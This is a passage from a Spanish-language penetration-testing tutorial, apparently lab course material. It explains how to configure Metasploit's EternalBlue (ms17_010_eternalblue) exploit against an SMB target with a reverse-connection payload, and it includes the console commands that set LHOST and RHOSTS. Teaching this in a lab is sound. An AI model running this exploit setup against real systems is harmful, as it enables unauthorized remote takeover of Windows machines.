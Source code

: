 Como podemos ver, ejecutando el`show payloads`Comando dentro del módulo de Exploit en sí, MSFConsole ha detectado que el destino es una máquina de Windows, y tales solo se muestran las cargas útiles dirigidas a los sistemas operativos de Windows.

También podemos ver que ha aparecido un nuevo campo de opción, directamente relacionado con lo que contendrán los parámetros de carga útil. Nos centraremos en`LHOST`y`LPORT`(Nuestro atacante IP y el puerto deseado para la inicialización de conexión inversa). Por supuesto, si el ataque falla, siempre podemos usar un puerto diferente y relanzar el ataque.

---

# **Usando cargas útiles**

Tiempo para establecer nuestros parámetros tanto para el módulo de explotación como para el módulo de carga útil. Para la parte de exploit, necesitaremos establecer lo siguiente:

| **Parámetro** | **Descripción** |
| --- | --- |
| `RHOSTS` | La dirección IP del host remoto, la máquina de destino. |
| `RPORT` | No requiere un cambio, solo una comprobación de que estamos en el puerto 445, donde se está ejecutando SMB. |

Para la parte de carga útil, necesitaremos establecer lo siguiente:

| **Parámetro** | **Descripción** |
| --- | --- |
| `LHOST` | La dirección IP del host, la máquina del atacante. |
| `LPORT` | No requiere un cambio, solo una verificación de que el puerto no está en uso. |

Si queremos verificar nuestra dirección IP LHOST rápidamente, siempre podemos llamar al`ifconfig`Comando directamente desde el menú MSFConsole.

### **MSF - Configuración de exploit y carga útil**

Cargas útiles

```
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig

**[\*]** exec: ifconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500

<SNIP>

inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15

<SNIP>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15

LHOST => 10.10.14.15

msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40

```
